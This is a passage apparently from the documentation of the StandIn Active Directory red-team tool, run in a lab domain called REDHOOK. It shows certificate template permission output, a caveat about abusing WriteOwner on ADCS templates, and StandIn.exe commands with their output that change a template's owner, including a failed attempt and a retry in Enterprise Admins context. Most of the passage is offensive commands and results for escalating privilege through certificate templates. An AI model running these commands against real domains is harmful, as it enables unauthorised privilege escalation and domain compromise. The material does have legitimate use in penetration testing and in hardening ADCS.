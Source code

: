 ```
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Users
    |  |_ Type             : Allow
    |  |_ Permission       : GenericAll
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
    |  |_ Object           : ANY
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Permission Identity : REDHOOK\Enterprise Admins
    |  |_ Type             : Allow
    |  |_ Permission       : ReadProperty, WriteProperty, ExtendedRight
    |  |_ Object           : Certificate-Enrollment
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 3:05:45 PM
```

#### Caveats

This attack comes with some extra constraints. In lab testing I found that when a `user context` had the `WriteOwner` privilege then that user could `only change the Owner to themselves` providing any other user identity caused the request to fail. Additionally, once changed, the owner could not be reverted to it's old sate unless executing from an `Enterprise Admins` context.

These restraints make this attack undesirable, it should only be used if no other options are available. In order to revert back to the old `Owner` the operator can generate a certificate for an `Enterprise Admins` user and use that the change the owner back.

```
# WebServer owned by REDHOOK\MBWillett & executing as "REDHOOK\MBWillett"
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\Enterprise Admins" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 4:18:21 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\Enterprise Admins
[!] Failed to modify ADCS permissions..
    |_ A constraint violation occurred.

# WebServer owned by REDHOOK\MBWillett & executing in "REDHOOK\Enterprise Admins" context
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\Enterprise Admins" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
```